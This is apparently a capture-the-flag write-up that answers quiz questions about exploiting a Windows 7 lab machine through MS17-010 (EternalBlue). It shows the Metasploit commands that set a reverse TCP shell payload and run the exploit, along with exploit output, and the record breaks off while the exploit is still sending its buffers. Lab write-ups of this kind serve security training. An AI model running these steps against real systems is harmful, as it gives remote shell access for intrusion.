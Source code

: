 Q: How many ports are open with a port number under 1000?

A: 3

Q: What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

A: ms17-010

## Task 2 Gain Access

Start Metasploit

Q: Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)

```sh
search ms17-010
```

A: exploit/windows/smb/ms17_010_eternalblue

Q: Show options and set the one required value. What is the name of this value? (All caps for submission)

```sh
msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
```

A: RHOSTS

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

set payload windows/x64/shell/reverse_tcp

```sh
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/shell/reverse_tcp
payload => windows/x64/shell/reverse_tcp
```

With that done, run the exploit!

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

```sh
payload => windows/x64/shell/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > run 

[*] Started reverse TCP handler on 10.8.153.11:4444 
[*] 10.10.186.180:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.10.186.180:445     - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7601 Service Pack 1 x64 (64-bit)
[*] 10.10.186.180:445     - Scanned 1 of 1 hosts (100% complete)
[*] 10.10.186.180:445 - Connecting to target for exploitation.
[+] 10.10.186.180:445 - Connection established for exploitation.
[+] 10.10.186.180:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.10.186.180:445 - CORE raw buffer dump (42 bytes)
[*] 10.10.186.180:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.10.186.180:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 31 20 53 65 72 76  sional 7601 Serv
[*] 10.10.186.180:445 - 0x00000020  69 63 65 20 50 61 63 6b 20 31                    ice Pack 1      
[+] 10.10.186.180:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.10.186.180:445 - Trying exploit with 12 Groom Allocations.
[*] 10.10.186.180:445 - Sending all but last fragment of exploit packet
[*] 10.10.186.180:445 - Starting non-paged pool grooming
[+] 10.10.186.180:445 - Sending SMBv2 buffers
```